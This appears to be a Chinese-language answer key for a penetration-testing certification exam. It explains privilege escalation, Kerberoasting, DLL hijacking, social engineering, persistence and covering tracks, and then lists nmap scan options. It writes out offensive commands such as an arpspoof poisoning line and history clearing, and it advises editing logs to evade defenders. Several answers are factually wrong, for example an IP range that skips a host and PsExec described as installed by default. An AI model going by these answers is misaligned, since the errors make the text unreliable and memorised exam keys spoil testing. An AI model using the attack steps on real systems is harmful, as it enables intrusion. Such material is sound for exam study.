## 121. A

发现与特定版本操作系统相关的漏洞的有效方法是查阅通用漏洞披露（CVE）数据库。CVE 数据库可在 `http://cve.mitre.org` 访问。它包含一份公开已知的网络安全漏洞列表。每当供应商发现其产品存在漏洞时，都会向 CVE 数据库添加一个条目。该数据库包含 Windows、Mac OS、Linux、UNIX、Android 和 iOS 操作系统的漏洞信息。

## 122. C 和 D

FTP 和 Telnet 被视为不安全的服务和协议。这是因为它们以明文形式通过网络传输数据，包括身份验证凭据。这些信息可以使用数据包嗅探器轻松捕获。

## 123. A 和 D

虽然 SSHv1 使用加密数据传输，但它不如 SSHv2 安全。然而，许多较旧的 Linux 或 UNIX 系统可能仍配置为使用 SSHv1。同样，TLS 1.2 被认为比 SSL 2.0 更安全。

## 124. B 和 C

在 Linux 上为可执行文件分配 `SUID` 权限允许其以文件所有者的权限运行。如果所有者是 `root` 用户，则它将以 `root` 的超级用户权限执行。同样，为可执行文件分配 `SGID` 权限允许其以所属组的权限运行。如果所属组是 `root` 组，则它将以 `root` 组的权限运行。

## 125. C

当在 Linux 系统上为目录分配粘滞位权限时，用户只能删除其为所有者的目录中的文件，即使他们对该目录拥有写和执行权限。

## 126. A

在 Linux 上，标准用户可以使用 `sudo` 程序运行可执行文件以提升权限，并以 `root` 用户（或系统上的任何其他用户，如果需要）身份运行该可执行文件。

## 127. C

在 Linux 系统上，`Ret2libc` 攻击会导致子程序的返回地址被进程内存中已存在的子程序的地址所替换。

## 128. A

在 Windows 系统上，`cPassword` 是在组策略首选项项中存储密码的属性名称。每当首选项需要保存用户密码时，它都会以加密格式存储在此属性中。然而，域中的任何经过身份验证的用户都可以轻松解密该密码。

## 129. B


您应该建议他们使用端口 636 上的 `LDAPS` 来管理用户帐户。`LDAPS` 由 SSL 保护。端口 389 上的标准 `LDAP` 以明文形式在网络上传输数据。这意味着您提交的用于访问目录服务本身的管理用户凭据以及正在被管理的用户的凭据都将以明文形式传输。

## 130. B

此场景中的渗透测试人员正在使用 `Kerberoasting` 攻击。任何有效的域用户都可以为已注册的服务请求 `SPN`。接收到的 Kerberos 票据可以离线破解，从而可能暴露服务帐户密码。这可能允许权限提升，因为服务帐户拥有本地服务器的管理员级权限的情况并不少见。

## 131. A

本地安全机构子系统服务（`LSASS`）是在 Windows 系统上运行的进程，用于强制执行系统上的安全策略。它验证登录系统的用户，管理用户密码更改，创建访问令牌，并向安全日志写入条目。

## 132. A

使用预启动执行环境（`PXE`）通过网络运行无人值守安装可能会导致身份验证凭据以明文形式传输。在无人值守安装期间，一个称为“应答文件”的特殊文件用于自动化安装过程。如果应答文件包含安装期间要在系统上创建的用户帐户信息，则该信息将以明文形式传输。

## 133. D

Windows 系统上的 `SAM` 数据库包含本地帐户的哈希密码。它默认位于 `C:\Windows\System32\config\`。如果能复制此文件，则可以使用互联网上许多不同的工具对其进行破解，以暴露其包含的密码。

### 134. D

这是一个 DLL 劫持攻击的示例。恶意 DLL 可能包含与原始 DLL 相同的函数，从而允许依赖它的应用程序正常运行。然而，它也可能包含在 DLL 加载时执行的恶意代码。

### 135. A 和 B

使用未加引号的服务路径是 Windows 系统上服务被利用的一种方式。通过不对服务路径加引号，目录名称中的任何空格都不会被正确处理，这可能导致故意放置在生成的未加引号目录路径中的恶意服务可执行文件被加载，而不是正确的服务可执行文件。此外，可写的服务可执行文件可以被同名的恶意可执行文件替换。

### 136. C

要实施 DLL 劫持攻击，渗透测试人员需要对目标文件系统具有读/写权限。使用不安全的文件和文件夹权限会使这项任务更容易完成。

### 137. A 和 D

DLL 劫持和计划任务都可以帮助在 Windows 系统上保持攻击的持久性。DLL 劫持会导致每次启动链接的应用程序时都加载恶意 DLL 中的攻击代码。使用计划任务可确保攻击代码定期运行。

### 138. B

系统管理员抵御内核攻击的最佳防御措施是使用供应商提供的最新补丁保持操作系统更新。通用漏洞披露（`CVE`）数据库包含已知的 Windows、Mac OS、Linux、UNIX、Android 和 iOS 操作系统内核的漏洞信息。

### 139. C

在此场景中，渗透测试人员利用了防火墙管理员未能修改防火墙设备上的默认账户设置。大多数网络设备（包括接入点、路由器、防火墙等）出厂时都预配置了默认管理凭据。这些默认账户设置在互联网上有详细文档记录。如果管理员忘记更改它们，测试人员就可以使用它们获得对设备的管理访问权限。

### 140. B、C 和 D

Shell 升级、VM 逃逸和容器逃逸都是沙箱逃逸攻击的示例。

### 141. A

测试人员实施了冷启动攻击。通过从闪存驱动器启动 Linux，她能够绕过许多 Windows 安全机制并访问关键文件。

### 142. D

`JTAG` 端口由某些制造商在主板上实现，用于诊断和测试目的。使用合适的设备，渗透测试人员可以连接到此端口并直接从运行中的主板捕获数据。

### 143. B

在网络设备上启用串行控制台连接的风险在于，网络管理员往往无法妥善保护它们。因为它们只能通过直接点对点连接访问，所以管理员不会将它们配置为要求身份验证。利用模拟，这使得渗透测试人员可以轻松访问设备，只要他们能获得物理访问权限。

### 144. A

远程过程调用（`RPC`）/ 分布式组件对象模型（`DCOM`）用于 Windows 系统，允许你在不同的 Windows 系统上远程执行代码。

### 145. A

`PsExec` 是默认安装在 Windows 系统上的命令行实用程序，允许你在其他 Windows 系统上以交互方式执行进程。

### 146. C

Windows 管理规范（`WMI`）是微软提供的一种基础设施，用于通过网络连接集中管理 Windows 系统。

### 147. C 和 D

PowerShell（`PS`）远程处理允许你在网络环境中的其他 Windows 系统上远程运行 PowerShell `cmdlet`。Windows 远程管理（`WinRM`）是一个允许 Windows 管理员使用 WS 管理协议管理远程系统的系统。

### 148. B

远程桌面协议（`RDP`）用于 Windows 系统，通过网络连接在本地系统上显示远程 Windows 主机的图形桌面。它提供完整的点击交互。它甚至可以用于将声音从远程系统传输到本地系统，并在系统之间共享文件。

### 149. C

Apple 远程桌面（`ARD`）可用于通过网络连接使用图形用户界面远程管理 Macintosh 系统。

### 150. A

虚拟网络计算（`VNC`）连接可用于通过网络连接使用图形用户界面远程管理 Windows、Macintosh 或 Linux 系统，前提是在本地和远程系统上都安装了必要的软件。

### 151. A

`X11` 转发可用于通过网络连接使用图形用户界面远程管理 Linux 系统。

### 152. C

在渗透测试期间应避免使用 `Telnet`、`rlogin` 和 `rsh` 等实用程序，因为它们以明文形式通过网络传输数据。这使得防御者更容易看到你在测试期间的操作，你很可能会被抓住。

### 153. B

在涉及 Linux 系统的渗透测试中，可用于建立持久性的一种技术是使用 `cron` 安排作业来运行攻击脚本或启动守护进程。这确保了这些作业在你离开系统后自动发生，无需干预。

### 154. B 和 C

在图形环境中，你可以使用任务计划程序自动运行任务（如攻击可执行文件或服务），无需你干预。你也可以从命令提示符使用 `at` 命令完成同样的事情。

### 155. B

特洛伊木马是一种提供有用功能但在运行时秘密执行恶意操作的恶意软件。例如，它可能提供一个用户喜欢玩的有趣游戏。然而，在后台，它可能正在运行键盘记录器、创建后门，甚至使系统成为僵尸网络中的僵尸节点。

### 156. A 和 B

为确保攻击的持久性，你可以在系统中创建后门或为自己创建一个用户账户。

### 157. C 和 D

在清理痕迹的过程中，你应该考虑采取诸如删除或隐藏你复制到系统上的任何文件等行动。你也可以考虑修改攻击系统时创建的任何日志条目。但是，修改日志文件时有两点需要注意。首先，确保渗透测试的工作范围允许你修改日志文件。有时这是不允许的。其次，你不应删除所有日志条目。这会向防御者明确表明你已经攻破了系统。

### 158. C

`Chkconfig` 是一个用于管理服务将在哪些运行级别运行的工具。`Chkconfig` 可用于查看或更改服务的运行级别。使用 `chkconfig --del <servicename>` 将把指定服务设置为在当前运行级别不运行，并将移除持久性。

### 159. C

`reg save` 将注册表中指定子项、条目和值的副本保存到指定文件中。扩展名为 `.reg` 的文件是 Windows 注册表使用的注册文件。这些文件可以包含配置单元、键和值。

### 160. A

在此场景中，渗透测试人员需要接收客户无线设备使用的频段和频率，以便进行无线渗透测试。无线设备可能在多个频段和频率上运行，了解确切的频段和频率将允许渗透测试人员按要求进行无线渗透测试。

### 161. A

网络钓鱼攻击以密码、用户名或信用卡信息等敏感信息为目标。定向钓鱼针对特定个人，而非更广泛的群体。短信钓鱼（或称 smishing）是通过短信进行的钓鱼。SMS 代表短消息服务。它是一种利用手机发送和接收文本消息或短邮件的方式。短信攻击是指通过欺骗性短信诱骗个人，或诱使其访问虚假网站并输入个人信息，从而试图获取个人信息。在该场景中，你想要针对某个特定个人，而非群体。

### 162. D

在该场景中，由于你正试图对公司员工执行 OSINT（开源情报收集），最好的方法是向员工发送伪造的电子邮件，以观察他们是否会回复敏感信息。如果交战规则允许且工作范围包含，渗透测试人员需要准备好在其测试计划中纳入社会工程学。

### 163. D

使用 `reg add` 可向注册表中添加新的子项或条目。语法如下：

```
reg add <KeyName> /v <ValueName> /t <DataType> /d <Data>
```

*   `KeyName` 指定要添加的子项或条目的完整路径。
*   `/v <ValueName>` 指定要在指定子项下添加的注册表条目的名称。
*   `/t <DataType>` 指定注册表条目的类型。
*   `/d <Data>` 指定新注册表条目的数据。

渗透测试人员通常专注于使用最简单的攻击向量来达成目标。一种常见的攻击方法是名为 `Mimikatz` 的工具。它可以从受损 Windows 系统的内存中窃取明文凭据。启用 WDigest 身份验证协议时，明文密码会存储在本地安全机构子系统服务（`LSASS`）中，从而暴露在窃取风险之下。WDigest 在 Windows 10 中默认处于禁用状态。

### 164. C

降级攻击是一种攻击形式，测试人员强制网络通道切换到安全性较低或无保护的数据传输标准。协议降级是中间人攻击的一个组成部分，用于拦截加密流量。降级攻击通过导致客户端和服务器使用安全性较低的协议来生效。在该场景中，由于你试图捕获所有未加密的 Web 流量，你会想要实施 HTTP 降级攻击。

### 165. A

TCP SYN 洪水攻击（也称为 SYN 洪水攻击）是一种拒绝服务（DDoS）攻击，测试人员向目标系统发送一系列 SYN 请求，试图消耗足够的服务器资源，使系统对合法流量无响应。这利用了正常 TCP 三次握手的一部分，消耗目标服务器上的资源并使其无响应。

### 166. A

在跨站脚本（XSS）攻击中，攻击者在网站上嵌入脚本命令，稍后当毫无戒心的访问者访问该站点时，这些命令将被执行。其意图是诱骗访问受信任站点的用户执行由不受信任的第三方放置在那里的恶意代码。在该场景中，攻击者开发了一个以 Web 浏览器为目标的应用程序，并在过程中获取用户的银行信息，窃取资金并将其转移到另一个账户。

### 167. A

社会工程学以人而非计算机为目标，依赖个人或群体违反安全程序、政策和规则。社会工程学可以当面实施、通过电话、短信或电子邮件进行。在该场景中，攻击者利用了社会工程学的权威原则。权威原则遵循这样一种信念：人们倾向于服从权威人物，即使被要求做出令人反感的行为。

### 168. D

存储型跨站脚本（XSS）是最危险的跨站脚本类型。允许用户存储数据的 Web 应用程序可能面临此类攻击。当 Web 应用程序收集用户输入（可能包含恶意内容），然后将该输入存储在数据存储中以供后续使用时，就会发生存储型 XSS。

### 169. D

ARP 欺骗是一种攻击者向局域网发送（伪造的）地址解析协议（ARP）消息的技术。通常，其目的是将攻击者的媒体访问控制（MAC）地址与另一主机（如默认网关）的 IP 地址关联起来，导致发往该 IP 地址的任何流量被发送给攻击者。ARP 欺骗可能允许攻击者拦截网络上的数据帧、修改流量或中断所有流量。

### 170. C

中间人攻击拦截两个系统之间的通信。ARP 代表地址解析协议，它允许网络将 IP 地址转换为 MAC 地址。在该场景中，攻击者想要执行中间人攻击；这通过执行 `arpspoof -t <victimIP> <gatewayIP>` 来完成。`-t` 开关指定要进行 ARP 投毒的特定主机。

### 171. C

网页抓取可自动提取数据，并以测试人员易于理解的格式呈现。在该场景中，Python 被用作抓取语言，配合一个名为 `BeautifulSoup` 的强大库。`BeautifulSoup` 是一个用于解析 HTML 和 XML 文档的 Python 包。它为解析后的页面创建一棵解析树，可用于从 HTML 中提取数据，这对网页抓取很有用。`Beautiful Soup` 帮助测试人员从网页中提取特定内容、移除 HTML 标记并保存信息。它是一种网页抓取工具，有助于清理和解析从 Web 上拉取下来的文档。

### 172. A

点击劫持是指测试人员使用多个透明层，诱使用户在本想点击顶层页面时，实际上点击了另一页面上的按钮或链接。测试人员“劫持”了点击并将其路由到另一页面。在 Web 浏览器中，点击劫持是一个浏览器安全问题，是跨多种浏览器和平台的漏洞。点击劫持采用嵌入代码或脚本的形式，可在用户不知情的情况下执行，例如点击一个看似执行其他功能的按钮。

### 173. C

锁绕过顾名思义，即不撬锁而绕过锁具。在该场景中，测试人员试图利用门下工具进行物理安全评估，该工具伸入门下，从内部拉动门把手打开门。

### 174. B

HTML 中的表单可以在 `<form>` 元素中使用 `method="POST"` 或 `method="GET"`（默认）。指定的方法决定了表单数据如何提交给服务器。使用 `GET` 时，参数会保留在浏览器历史记录中，因为它们成为 URL 的一部分。使用 `POST` 时，参数不会保存在浏览器历史记录中。与 `POST` 相比，`GET` 安全性较低，因为发送的数据是 URL 的一部分。

### 175. A

社会工程学以人而非计算机为目标，依赖个人或群体违反安全程序、政策和规则。社会工程学可以当面实施、通过电话、短信或电子邮件进行。在该场景中，攻击者使用了社会工程学的权威原则。他们希望通过 CFO 收到来自 CEO 的电子邮件，不会产生任何疑问，从而完成转账。权威原则遵循这样一种信念：人们倾向于服从权威人物，即使被要求做出令人反感的行为。

### 176. D

Kerberoasting 是一种依赖于为服务账户的服务主体名称（SPN）请求服务票据的技术。这些票据使用与 SPN 关联的服务账户密码进行加密，这意味着一旦测试人员使用像 `Mimikatz` 这样的工具获取了服务票据，就可以使用离线破解工具破解票据以获取服务账户密码。Kerberoasting 是一个四步过程：

## 1. 扫描 Active Directory，查找设置了服务主体名称 (SPN) 的用户账户。

## 2. 使用 SPN 请求服务票据。

## 3. 从内存中提取服务票据并保存到文件。

## 4. 对服务票据中的密码进行离线暴力破解攻击。

### 177. C

如果测试人员有权访问 Windows 工作站或服务器，则可以使用 `PowerSploit`，它提供了维持持久性和执行进一步侦察所需的工具包。测试人员将想要利用 `HKEY_CURRENT_USER` 注册表配置单元。`HKEY_CURRENT_USER` 配置单元旨在仅对当前登录的用户可用。因此，当不同的 Windows 用户登录系统时，会加载不同的 `HKEY_CURRENT_USER` 注册表配置单元副本。当用户注销时，`HKEY_CURRENT_USER` 注册表配置单元会在本地保存为 `NTUSER.DAT` 或 `USER.DAT` 文件。此注册表配置单元可以在 `Notepad` 中打开，并且可以轻松找到加密的登录 ID 和密码。如果用户拥有漫游配置文件，则 `NTUSER.DAT` 文件将保存在该用户登录过的每个工作站上。

### 178. A

`Wi-Fi Protected Access 2 – Pre-Shared Key (WPA2-PSK)` 是一种使用带有可选 `Pre-Shared Key (PSK)` 认证的 `WPA2` 来保护网络的方法。要使用 `WPA2-PSK` 加密网络，您需要为路由器提供一个长度在 8 到 63 个字符之间的纯英文密码短语。`Wi-Fi deauthentication attacks`（Wi-Fi 取消认证攻击）是一种针对用户与 `Wi-Fi wireless access point`（Wi-Fi 无线接入点）之间通信的拒绝服务攻击。测试人员可以随时向无线接入点发送取消认证帧，并使用伪造的受害者地址。

### 179. C

`PsExec` 是一种工具，旨在允许渗透测试人员通过端口 `445` 上的 `SMB` 在远程系统上运行程序。这使它成为一个极其有用的工具。`PsExec` 远程运行进程的能力要求本地和远程计算机都启用了文件和打印共享（即 `Workstation` 和 `Server` 服务）以及默认的 `Admin$` 共享，后者是一个映射到 `\\windows` 目录的隐藏共享。

### 180. B

`Chmod` 是一个命令和系统调用，用于更改文件系统对象（文件和目录）的访问权限。`Chmod 4111` (`chmod a+rwx,u-rw,g-rw, o-rw,ug+s,+t,g-s,-t`) 设置权限，使得 (U)ser / owner（用户/所有者）不可读、不可写、可执行。(G)roup（组）不可读、不可写、可执行。(O)thers（其他人）不可读、不可写、可执行。`sudo` 是一个用于类 Unix 计算机操作系统的程序，允许用户以另一个用户（默认为超级用户）的安全权限运行程序。在此场景中，命令 `chmod 4111 /usr/bin/sudo` 将错误配置 `sudo`。

### 181. D

`Subject Alternative Name (SAN)`（主题替代名称）是 `X.509` 的一个扩展，允许使用 `subjectAltName` 字段将各种值与安全证书关联。这些值称为 `SANs`，包括电子邮件地址、IP 地址、URL、DNS 名称、目录名称以及其他后跟值的名称。使用 `SAN` 可提供扩展的站点验证。

### 182. B

在此场景中，`..` 操作符是攻击者试图进行目录遍历攻击的明显迹象。此特定攻击旨在跳出 Web 服务器的根目录并访问服务器上的 `/etc/passwd` 文件。`directory traversal attack`（目录遍历攻击）是一种 HTTP 攻击，允许攻击者访问受限目录并在 Web 服务器根目录之外执行命令。


### 183. A

`man-in-the-middle attack`（中间人攻击）发生在双方通信被外部实体拦截时。`Man-in-the-middle attacks` 是一种常见的网络安全攻击，允许攻击者窃听两个目标之间的通信。攻击发生在两个合法通信主机之间，允许攻击者“监听”对话。

### 184. B

`bash history`（bash 历史记录）保存了测试人员在 Linux 命令行执行的所有命令记录。这允许测试人员通过使用上下箭头键浏览命令历史文件，轻松运行先前执行的命令。从 Linux 终端中删除命令行历史记录的主要原因是防止其他用户使用测试人员的先前命令。要删除或清除 `bash history` 中的所有条目，请使用带有 `-c` 选项的 `history` 命令：

```
$ history -c
```

### 185. A

`Impersonation`（冒名顶替/假扮）涉及伪装成另一个人以获取设施或资源的访问权限。这可能只是简单地声称是员工，也可能像穿着制服并出示假公司 ID 那样复杂。在此场景中，攻击者致电服务台技术人员，假装是一名员工。

### 186. E and F

鉴于此场景，客户将希望对 `SQL` 语句使用 `blacklist`（黑名单）和 `whitelist`（白名单）验证。`SQL injection`（SQL 注入）是一种常见的攻击途径，它使用恶意 `SQL` 代码操纵后端数据库以访问本不打算显示的信息。`SQL injections` 是最常见的 Web 黑客技术之一。`Blacklist validation`（黑名单验证）针对一组已知的恶意输入测试外部输入。`Whitelist validation`（白名单验证）针对一组已知的、批准的输入测试外部输入。通过 `whitelist input validation`（白名单输入验证），应用程序确切地知道想要什么并拒绝其他输入。

### 187. D

`pty` 模块允许渗透测试人员生成一个伪终端，可以欺骗 `su` 等命令，使其认为它们正在一个合适的终端中执行。要升级 shell，只需运行所示命令。`su` 是一个 Unix 命令，代表 substitute user（替代用户）。它由计算机用户用来以另一个用户账户的权限执行命令。执行时，它会调用一个 shell，而不更改当前工作目录或用户环境。

### 188. C

`Piggybacking attacks`（搭便车攻击/尾随攻击）依赖于跟随员工通过安全门或其他入口进入。安全要求较高的组织可能会使用 `mantraps`（人员锁/防尾随门）来防止 `piggybacking`（搭便车）和 `tailgating`（尾随）。正确实施的 `mantrap` 一次只允许一个人通过，且该人必须打开两扇门，但同一时间只能有一扇门处于解锁和打开状态。

### 189. C

`Social Engineer Toolkit (SET)`（社会工程学工具包）提供了一个框架，用于自动化社会工程学过程，包括发送鱼叉式网络钓鱼消息、托管虚假网站和收集凭证。`Social engineering`（社会工程学）在许多攻击中发挥着重要作用。`SET` 是一个菜单驱动的社会工程学攻击系统。在此场景中，渗透测试人员正在尝试进行 `spear phishing attack`（鱼叉式网络钓鱼攻击）。

### 190. B

`Link Local Multicast Name Resolution (LLMNR)`（本地链路多播名称解析）和 `NetBIOS Name Service (NetBIOS-NS)`（NetBIOS 名称服务）投毒可以为渗透测试人员提供获得 `man-in-the-middle`（中间人）位置的能力，从而扩大其获取访问权限和信息的能力。Windows 网络中最常被针对的服务之一是 `NetBIOS`。`NetBIOS` 通常用于文件共享。

### 191. C

在寻求访问主机、系统或应用程序时，第一步之一是枚举用户名。一旦猜出用户名，就可以尝试有针对性的基于密码的攻击。`RID cycling attack`（RID 循环攻击）尝试通过空会话枚举用户账户。如果测试人员指定了密码文件，则在枚举完成后将自动尝试暴力破解用户账户。因此，在此场景中，尝试 `RID cycling` 将是测试人员接下来应尝试的步骤。

### 192. A

通过 `badge cloning`（工牌克隆），测试人员可以克隆员工的工牌以进入设施。最常用的技术之一是克隆 `radio-frequency identification (RFID)`（射频识别）标签。考虑到在工作时间和非工作时间都试图获取访问权限的此场景，`badge cloning` 是最佳选择。

### 193. C. Vishing（语音钓鱼）

Vishing（语音钓鱼）是通过电话系统实施的社会工程学攻击。钓鱼攻击的目标是密码、用户名或信用卡信息等敏感信息。Vishing 的原理与钓鱼类似，但使用语音技术实施。Vishing 攻击可以通过语音邮件、`IP 语音（VoIP）`、固定电话或移动电话进行。在该场景中，由于 CEO 接到电话，因此这是一起 Vishing 攻击。

### 194. D. 权限提升攻击

权限提升攻击通常分为两大类：垂直提升和水平提升。垂直提升攻击侧重于测试人员获取更高权限。水平提升攻击则横向移动到具有相同权限级别的其他账户或服务。

`unquoted service path`（未加引号的服务路径）是 Windows 中的一个漏洞。启动服务时，Windows 会尝试定位该服务。通常服务路径会用引号明确界定。但有时服务路径可能包含空格或未用引号括起。测试人员可利用未加引号的服务路径提升权限。

### 195. C. Bluejacking（蓝牙劫持）

Bluejacking 是指攻击者通过蓝牙设备发送未经请求的消息。这是一种黑客手段，允许个人在一定半径内向启用蓝牙的设备发送匿名消息。首先，黑客使用启用蓝牙的设备扫描周围环境，搜索其他设备。然后向检测到的设备发送未经请求的消息。

### 196. B. 命令注入

在该场景中，输入了一条命令，攻击者试图访问 `/etc` 目录下的密码文件。命令注入是一种攻击，其目标是通过易受攻击的应用程序在主机操作系统上执行任意命令。当应用程序将不安全的用户提供的数据（表单、Cookie、HTTP 头等）传递给系统 Shell 时，就会发生命令注入攻击。

### 197. B. 跨站脚本（XSS）

跨站脚本（XSS）攻击发生在 Web 应用程序允许攻击者执行 HTML 注入、将自己的 HTML 代码插入网页时。在该场景中，攻击者试图使用 Web 浏览器通过 JavaScript 代码操纵 HTML `iframe`。

### 198. B. 键盘记录器

键盘记录器是一种软硬件工具，可作为持续利用过程的一部分发挥作用。捕获按键可深入了解用户采取的操作，并能成为凭证和其他机密信息的宝贵来源。键盘记录器是一种跟踪或记录键盘敲击键的软件。这通常是为了恶意收集账户信息、信用卡号、用户名、密码和其他私人数据。

### 199. D. 竞争条件

竞争条件发生在代码段的安全性取决于系统内事件发生顺序时。`time-of-check-to-time-of-use (TOCTTOU)`（检查时间到使用时间）问题是一种竞争条件，发生在程序过早检查访问权限（远在资源请求之前）时。

### 200. A. 通过 Cookie 劫持会话

网站使用 HTTP Cookie 随时间保持会话。如果测试人员能获取用户会话 Cookie 的副本，则可使用该 Cookie 冒充用户浏览器并劫持经过身份验证的会话。能够获取用于验证用户 Web 会话的会话 Cookie 的攻击者可以劫持该会话并接管用户账户。用于身份验证的 Cookie 应始终安全创建，且仅通过安全的加密通信通道传输。

# 第 4 章：渗透测试工具

## 1. A. `nmap` SYN 扫描

`-sS` 选项使 `nmap` 实用程序对指定目标系统执行 SYN 端口扫描。

## 2. D 和 E. `nmap` 子网扫描

`nmap 192.168.1.0/24` 命令使 `nmap` 实用程序扫描子网上的每个系统，范围从 `.1` 到 `.254`。同样，`nmap 192.168.1.1-254` 命令也使 `nmap` 实用程序扫描子网上的每个系统，范围从 `.1` 到 `.254`。

## 3. A 和 B. `nmap` 默认 SYN 扫描

`nmap 192.168.1.1 -sS` 命令使 `nmap` 实用程序对指定目标系统执行 SYN 端口扫描。同样，`nmap 192.168.1.1` 命令也使 `nmap` 实用程序对指定目标系统执行 SYN 端口扫描，因为如果未指定其他扫描类型，SYN 扫描是默认使用的。

## 4. D. `nmap` 操作系统检测

`nmap 192.168.1.1 -O` 命令使 `nmap` 实用程序使用 TCP/IP 协议栈指纹识别来确定远程主机上安装的操作系统。

## 5. A. `nmap` 激进扫描

`nmap 192.168.1.1 -A` 命令启用操作系统检测、服务版本检测、脚本扫描和对远程主机的路由跟踪。

## 6. C. `nmap` TCP 连接扫描

`nmap 192.168.1.1 -sT` 命令使 `nmap` 实用程序对指定目标系统执行 TCP 连接扫描。

## 7. D. `nmap` UDP 扫描

`nmap 192.168.1.1 -sU` 命令使 `nmap` 实用程序对指定目标系统执行 UDP 端口扫描。

## 8. A. `nmap` 列表扫描

`nmap 192.168.1.0/24 -sL` 命令使 `nmap` 实用程序扫描指定的 IP 地址范围以查找主机。它仅列出要扫描的目标。

## 9. A. `nmap` TCP ACK 扫描

`nmap 192.168.1.1 -sA` 命令使 `nmap` 实用程序对指定目标系统执行 TCP ACK 扫描。

## 10. C. `nmap` 排除主机

`nmap 192.168.1.0/24 --exclude 192.168.1.250` 命令使 `nmap` 实用程序扫描从 `.1` 到 `.254` 的子网上的每个系统，但跳过 IP 地址为 `192.168.1.250` 的主机。

## 11. A. `nmap` TCP ACK 扫描范围

`nmap 192.168.1.10-13 -sA` 命令使 `nmap` 实用程序对 IP 地址为 `192.168.1.10`、`192.168.1.11` 和 `192.168.1.13` 的目标系统执行 TCP ACK 扫描。

## 12. C. `nmap` 非连续主机 UDP 扫描

由于要扫描的主机没有连续的 IP 地址，因此必须单独指定每个主机。在这种情况下，`nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 192.168.1.15 -sU` 命令使 `nmap` 实用程序对每个指定系统执行 UDP 端口扫描。

## 13. B. `nmap` Ping 扫描（无端口扫描）

`nmap 192.168.1.1-254 -sn` 命令使 `nmap` 实用程序扫描指定的 IP 地址范围以查找主机。它列出所有发现的主机，而不实际扫描其任何端口。

## 14. D. `nmap` 扫描特定端口

`nmap 192.168.1.1-254 -p 23` 命令使 `nmap` 实用程序扫描指定的 IP 地址范围，查找开放 Telnet 端口 `23` 的主机。

## 15. A. `nmap` 扫描所有端口

`nmap 192.168.1.2 -p-` 命令使 `nmap` 实用程序扫描指定主机上的所有端口。请注意，由于涉及的端口数量众多，扫描将需要一些时间才能完成。

## 16. D. `nmap` 端口状态：被过滤

当 `nmap` 指示端口为 `filtered`（被过滤）时，通常意味着相关服务已安装并正在运行，但主机防火墙正在阻止该端口。

## 17. B. `nmap` 端口状态：开放

当 `nmap` 指示端口为 `open`（开放）时，通常意味着相关服务已安装、正在运行，且可通过主机防火墙访问。

## 18. A. `nmap` 端口状态：关闭

当 `nmap` 指示端口为 `closed`（关闭）时，通常意味着相关服务根本未安装，或者已安装但当前未运行。因此，没有任何进程在其关联端口上监听。

## 19. A. `nmap` TCP SYN 扫描机制

`-sS` 选项使 `nmap` 运行 TCP SYN 扫描。在此扫描中，`nmap` 向目标主机发送 TCP SYN 数据包，目标主机响应 SYN ACK 数据包。然而，`nmap` 不会完成连接，而是向目标主机发送重置数据包。

## 20. D. `nmap` 服务版本检测

本题所示的所有选项都将导致 `nmap` 检测目标主机上运行的服务。然而，只有 `-sV` 选项可用于 `nmap` 检测这些服务的版本号。

## 21. C. `nmap` 特定端口指定

`-p U:20,T:21,22` 命令告诉 `nmap` 仅扫描 UDP 端口 `20` 和 TCP 端口 `21`、`22`。本题中的其他选项也将扫描这些端口；但是，它们也会扫描许多其他不需要的端口。

## 22. A 和 C. `nmap` Web 服务器端口

`-p http,https` 选项或 `-p 80,443` 选项均可用于 `nmap` 扫描主机的 Web 服务器服务。

## 23. B. `nmap` 热门端口和排除

`--top-ports 1000` 选项告诉 `nmap` 扫描 1000 个最流行网络服务使用的默认端口。`--exclude-ports 53` 选项告诉 `nmap` 在扫描期间跳过端口 `53`（DNS 服务器使用的默认端口）。

## Nmap 选项与渗透测试工具题解

### 24. C

`-iL file_name` 选项告诉 `nmap` 读取指定文件，并仅扫描文件中列出的那些主机。

### 25. A

`-Pn` 选项告诉 `nmap` 在不进行主机发现的情况下扫描主机（或整个子网）。在渗透测试中应避免使用此类扫描，因为它耗时极长；范围内每个 IP 地址的每个端口都会被扫描，无论该 IP 地址是否有效。因此，它也会产生大量流量，可能被 IDS 或 IPS 工具检测到。

### 26. A

`-T1` 选项告诉 `nmap` 以 *sneaky* 模式扫描。在此模式下，每 15 秒扫描一个端口。因此，这种扫描非常缓慢。然而，这种缓慢也使得扫描更难被检测到。

### 27. D

`-T4` 选项告诉 `nmap` 以 *aggressive* 模式扫描。这种扫描运行得相当快。然而，这种速度也使得扫描更容易被 IDS/IPS 系统或目标的 IT 人员检测到。

### 28. C

如果在不指定时间选项的情况下运行 `nmap` 命令，则默认使用 `-T3` 选项。这告诉 `nmap` 以 *normal* 模式扫描。

### 29. A

`-T0` 选项导致 `nmap` 以 *paranoid* 模式扫描，即每五分钟仅在目标主机上扫描一个端口。虽然此模式可用于运行最隐蔽的扫描，但也会导致扫描速度极其缓慢。

### 30. A

`-T5` 选项导致 `nmap` 以 *insane* 模式扫描。这是最快的 `nmap` 扫描类型。然而，这种速度也使得它更容易被 IDS/IPS 工具或目标的 IT 人员检测到。

### 31. C

`-T2` 选项导致 `nmap` 以 *polite* 模式扫描。这种扫描运行得相当缓慢。然而，这种缓慢也使得扫描更难被检测到。

### 32. B

`-oN` 选项导致 `nmap` 将扫描输出写入标准文本文件。必须使用此选项指定文件名。

### 33. A

`-oX` 选项导致 `nmap` 将扫描输出写入 XML 格式的文本文件。必须使用此选项指定文件名。

### 34. D

`-oG` 选项导致 `nmap` 将扫描输出写入文本文件，其格式允许使用 `grep` 命令快速搜索。必须使用此选项指定文件名。

### 35. C

`-oA` 选项导致 `nmap` 同时将扫描输出写入普通文本文件、XML 格式文本文件和可 grep 文本文件。必须使用此选项指定基本文件名。将使用此基本文件名生成的每个文件添加不同的扩展名。普通文件将具有 `.nmap` 扩展名，可 grep 文件将具有 `.gnmap` 扩展名，XML 文件将具有 `.xml` 扩展名。

### 36. A

`-f` 选项导致 `nmap` 使用微小的分片数据包进行扫描。有时这些小数据包对于数据包过滤防火墙来说更难以正确分析。

### 37. B

`-D` 选项导致 `nmap` 从欺骗的 IP 地址发送扫描。可以使用此选项指定一个或多个伪造的源 IP 地址。

### 38. D

`-iR` 选项导致 `nmap` 扫描指定数量的随机主机。例如，如果要扫描 50 个随机主机，可以将 `-iR 50` 选项与 `nmap` 命令一起使用。

### 39. C

`-F` 选项导致 `nmap` 扫描指定主机上最常用的 100 个 IP 端口。例如，此扫描将包括端口 20、21、23、25、53、80 等。有时这被称为 *fast port scan*。

### 40. A

`--proxies` 选项导致 `nmap` 通过代理服务器中继连接。需要使用此选项包含一个或多个代理服务器的 IP 地址。

### 41. A 和 B

